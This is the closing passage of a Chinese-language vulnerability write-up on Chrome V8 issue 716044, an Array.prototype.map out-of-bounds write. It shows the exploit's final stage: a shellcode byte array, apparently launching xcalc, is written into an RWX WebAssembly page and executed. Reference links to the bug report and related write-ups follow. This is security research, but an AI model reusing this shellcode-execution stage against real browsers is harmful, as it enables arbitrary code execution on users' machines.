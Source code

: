 ```javascript
var shellcode = [72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72, 184, 46, 121, 98,
96, 109, 98, 1, 1, 72, 49, 4, 36, 72, 184, 47, 117, 115, 114, 47, 98,
105, 110, 80, 72, 137, 231, 104, 59, 49, 1, 1, 129, 52, 36, 1, 1, 1, 1,
72, 184, 68, 73, 83, 80, 76, 65, 89, 61, 80, 49, 210, 82, 106, 8, 90,
72, 1, 226, 82, 72, 137, 226, 72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72,
184, 121, 98, 96, 109, 98, 1, 1, 1, 72, 49, 4, 36, 49, 246, 86, 106, 8,
94, 72, 1, 230, 86, 72, 137, 230, 106, 59, 88, 15, 5];

dataview_write(wasm_rwx, shellcode);

wasm_function();
```
执行示意图：

![image-20200727164118903](..\image\2020-07-24-Issue-716044-Array.prototype.map越界写漏洞分析\1.png)

## 参考链接

http://dittozzz.top/2019/11/04/Chrome-v8-716044-Array-prototype-map-OOB-write/

https://v8.dev/docs/csa-builtins

https://bugs.chromium.org/p/chromium/issues/detail?id=716044

https://halbecaf.com/2017/05/24/exploiting-a-v8-oob-write/